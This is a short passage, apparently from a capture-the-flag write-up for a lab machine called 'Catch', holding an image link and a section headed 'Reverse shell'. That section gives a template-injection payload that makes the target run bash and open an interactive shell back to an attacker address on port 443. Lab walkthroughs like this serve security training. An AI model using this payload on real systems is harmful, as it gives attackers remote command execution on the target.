 ![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Catch/22.png)

##### Reverse shell
```bash
{{["bash -c 'bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1'"]|filter('system')|join(",")}}
```
